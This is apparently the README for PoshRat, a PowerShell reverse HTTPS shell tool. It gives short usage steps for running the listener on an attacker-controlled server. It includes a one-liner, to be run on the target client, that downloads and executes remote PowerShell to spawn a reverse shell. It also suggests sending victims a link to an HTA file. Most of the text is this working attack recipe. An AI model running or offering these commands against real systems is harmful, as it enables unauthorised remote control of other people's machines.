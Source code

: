 PoshRat
=======

PowerShell Reverse HTTPs Shell

1. Invoke PoshRat.ps1 On An Atacker Controlled Server
2. To Spawn The Reverse Shell Run On Client

   iex (New-Object Net.WebClient).DownloadString("http://[ServerIP]/connect")
3. Browse to or send link to [serverip]/app.hta

Created By Casey Smith @subTee
